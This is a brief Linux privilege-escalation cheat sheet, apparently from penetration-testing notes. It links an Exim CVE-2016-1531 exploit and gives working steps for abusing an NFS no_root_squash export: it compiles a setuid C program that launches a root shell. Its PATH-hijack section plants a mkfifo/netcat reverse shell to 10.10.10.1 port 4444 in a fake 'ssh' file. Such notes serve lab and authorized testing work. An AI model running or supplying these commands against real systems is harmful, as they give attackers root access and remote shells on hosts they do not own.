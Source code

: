 ### Exim < 4.86.2

* https://github.com/HackerFantastic/Public/blob/master/exploits/cve-2016-1531.sh

### Check vulnerable software

```
# Debian

dpkg -l 
 
# CentOS, OpenSuse, Fedora, RHEL 
rpm -qa (CentOS / openSUSE ) 
 
# OpenBSD, FreeBSD 
pkg_info
```

## Sudo

* `sudo su -`
* `sudo -l`

## NFS

**On victim host**
* `cat /etc/exports`: if `no_root_squash` option **is defined** for the `/tmp` export (or another export)

**On attacker host (as root)**
* `showmount -e <IP_VICTIM>`
* Mount the share: `mount -o rw,vers=2 <IP_VICTIM>:/tmp /tmp/`
* `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/x.c`
* `gcc /tmp/x.c -o /tmp/x`
* `chmod +s /tmp/x`

**On victim host again**
* Execute `/tmp/x`

## Cron

* Detect sheduled tasks with `pspy`: https://github.com/DominicBreuker/pspy

## File permissions

### Change PATH

```
 set PATH="/tmp:/usr/local/bin:/usr/bin:/bin"
 echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 4444 >/tmp/f" >> /tmp/ssh
 chmod +x ssh
```
